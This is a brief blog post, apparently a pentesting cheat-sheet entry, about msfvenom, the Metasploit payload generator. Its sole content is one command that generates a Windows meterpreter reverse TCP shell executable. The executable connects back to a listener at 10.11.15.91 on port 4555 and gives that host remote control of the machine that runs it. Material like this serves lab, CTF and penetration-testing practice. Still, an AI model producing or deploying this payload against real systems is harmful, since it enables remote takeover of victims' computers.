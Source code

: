 ```yaml
---
layout: post 
title: msfvenom 
author: Edwards 
date: 2020-11-15
math: true 
--- 
```


_MsfVenom - a Metasploit standalone payload generator._

## Create a reverse tcp shell 
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.15.91 LPORT=4555 -f exe > shell.exe
```
